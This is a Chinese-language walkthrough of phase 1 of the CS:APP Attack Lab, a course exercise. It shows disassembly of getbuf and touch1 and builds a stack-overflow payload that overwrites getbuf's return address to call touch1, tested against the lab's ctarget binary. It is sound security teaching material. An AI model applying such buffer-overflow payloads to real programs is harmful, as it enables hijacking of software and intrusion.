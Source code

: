 # 标题
实验包的下载不再多说，这个实验分为两个部分代码注入和 ROP 攻击。
## 第一部分
- Phase 1：根据文档的说明，test 会调用 getbuf 开辟一个在栈上的缓冲区，我们要做的使用通过向 getbuf 的返回地址写入 touch1 的地址以达到调用 touch1 的目的，使用 objdump -d <file> 可以获得 file 的代码偏移量。
```c
void test() {
    int val;
    val = getbuf();
    printf("NO explit. Getbuf returned 0x%x\n", val);
}
```
得到 getbuf 的反汇编的源码：
```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp

...

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
...
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
```
可见这个函数开辟了 0x28（40） 字节的空间。
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-stackpreview.png) rsp + 0x28 起始的位置就是我们通过溢出写入的 touch1 的返回地址（可知是 0x4017c0），我们可以构造字符串：
```
rsp + 0x0  00 00 00 00 00 00 00 00 00 00
rsp + 0xa  00 00 00 00 00 00 00 00 00 00
rsp + 0x14 00 00 00 00 00 00 00 00 00 00 
rsp + 0x1e 00 00 00 00 00 00 00 00 00 00
rsp + 0x28 c0 17 40 00
```
注意在 Linux 64位的情况下指针是 64位，同时注意字节的顺序，根据反汇编的得到的代码可知机器是小端序。低位在低地址。
使用 `cat ./p1.txt | ./hex2raw | ./ctarget -q` 在本地运行测试程序，可得到结果：
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-level1-success.png)
